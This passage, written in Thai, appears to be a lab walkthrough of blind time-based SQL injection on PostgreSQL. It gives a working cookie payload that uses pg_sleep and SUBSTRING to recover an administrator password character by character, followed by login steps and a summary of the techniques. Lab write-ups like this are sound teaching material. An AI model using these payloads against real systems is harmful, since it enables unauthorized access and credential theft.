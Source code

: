 ### เมื่อ attack เสร็จ ให้ดูคอลัมน์ "Response received":
- **เลขเล็กๆ** (< 1000 milliseconds) = ตัวอักษรผิด
- **เลขใหญ่** (≈ 10,000 milliseconds) = ตัวอักษรถูกต้อง ✅

## ขั้นตอนที่ 7: หาตัวอักษรที่เหลือ

**เปลี่ยน offset จาก 1 เป็น 2 เพื่อหาตัวอักษรตัวที่ 2:**
```
TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,2,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

**ทำซ้ำกระบวนการสำหรับ offset 3, 4, 5... จนครบ 20 ตัวอักษร**

## ขั้นตอนสุดท้าย: เข้าสู่ระบบ

1. คลิก **"My account"**
2. ใส่ username: `administrator`
3. ใส่ password ที่ได้จากการ attack
4. เข้าสู่ระบบสำเร็จ! 🎉

---

## เทคนิคสำคัญที่ต้องจำ

### 1. PostgreSQL Time Delay Function:
```sql
pg_sleep(10)  -- รอ 10 วินาที
```

### 2. CASE Statement Structure:
```sql
CASE WHEN (condition) THEN pg_sleep(10) ELSE pg_sleep(0) END
```

### 3. SUBSTRING Function:
```sql
SUBSTRING(password, position, length)
-- SUBSTRING(password, 1, 1) = ตัวอักษรแรก
-- SUBSTRING(password, 2, 1) = ตัวอักษรที่สอง
```

### 4. URL Encoding สำคัญ:
- `;` → `%3B`
- ` ` → `+`

## ข้อสังเกตสำคัญ

### ทำไมต้องใช้ Single Thread?
- การส่ง request แบบ concurrent อาจทำให้เวลาวัดไม่แม่นยำ
- Network congestion จะส่งผลต่อการวัดเวลา
- Single thread ทำให้ผลลัพธ์เชื่อถือได้มากขึ้น
